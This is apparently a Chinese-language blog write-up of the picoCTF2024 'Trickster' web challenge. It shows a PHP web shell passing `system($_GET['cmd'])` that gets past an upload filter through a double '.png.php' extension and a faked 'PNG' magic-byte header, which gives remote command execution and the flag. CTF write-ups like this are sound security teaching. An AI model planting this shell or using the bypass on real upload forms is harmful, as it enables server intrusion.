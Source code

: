 ```yaml
---
title: '[Write-Up] Trickster'
date: 2024-09-15
tags:
  - picoCTF2024
  - writeup
  - CTF
  - CTF-Medium
  - Web Exploitation
author: 'tntrenjin'
draft: false
---
```


## 題目資訊

- 來源：picoCTF2024
- 分類：Web Exploitation
- 難度：中

## 解題流程

### 探勘

打開網頁，會看到只有按鈕可以上傳圖片

看原始碼也是 POST 到自己

上傳正常圖片只會說上傳成功

![alt text](image.png)

### 嘗試破解

直接寫 WebShell，然後改名成 png

做一個假的 PNG 上傳，內容如下，然後改名成 webshell.png.php

```php
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

出現錯誤： `Error: The file is not a valid PNG image: 3c3f7068`

看來會檢查 Magic Number

![alt text](image-1.png)

### 繼續探勘

1. robots.txt

   ```text
   User-agent: *
   Disallow: /instructions.txt
   Disallow: /uploads/
   ```

2. instructions.txt

   ```text
   Let's create a web app for PNG Images processing.
   It needs to:
   Allow users to upload PNG images
   	look for ".png" extension in the submitted files
   	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
   after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
   ```

   看起來確實有要求以 png 作為副檔名，會驗證檔案開頭是否為 PNG(50 4E 47)

3. 然後 uploads 應該就會是上傳後的檔案位置

### 繼續破解

檔案內容稍微改成這樣，檔名維持 webshell.png.php

```php
PNG
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

上傳後，成功繞過檢查

![alt text](image-2.png)

接著，到 uploads 去找剛剛上傳的檔案，順便補上一個 ls 指令

看來是順利 RCE(?

![alt text](image-3.png)

那就開始一個路徑慢慢看，可以發現有一個可疑的文字檔

![alt text](image-4.png)

打開後就是 FLAG

## Flag

> picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
